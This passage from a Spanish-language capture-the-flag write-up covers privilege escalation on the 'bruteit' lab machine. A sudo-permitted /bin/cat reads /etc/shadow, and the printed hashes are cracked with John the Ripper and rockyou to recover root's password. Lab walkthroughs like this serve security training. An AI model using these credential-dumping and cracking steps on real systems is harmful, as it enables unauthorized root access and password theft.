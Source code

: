 ## 5. Escalada de Privilegios
**1. Verificación de privilegios sudo**:

```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
**Resultado**:  
`john` puede ejecutar `/bin/cat` como root sin contraseña (`NOPASSWD`)
**2. Acceso a archivos sensibles**:
- `/etc/shadow` accedido y descargado
```bash
sudo /bin/cat /etc/shadow
[...]
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::

```
- Hash del usuario root crackeado con `john`:
```
john hashes.txt --wordlist=../rockyou.txt

Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)     
```
**3. Acceso Root**:
```
john@bruteit:~$ su -
Password: 
root@bruteit:~# ls
root.txt
root@bruteit:~# cat root.txt
THM{***************}

```
**4. Alternativa directa** (sin crackeo):
```
sudo /bin/cat /root/root.txt
THM{***************}
```
## 6. Hallazgos Clave
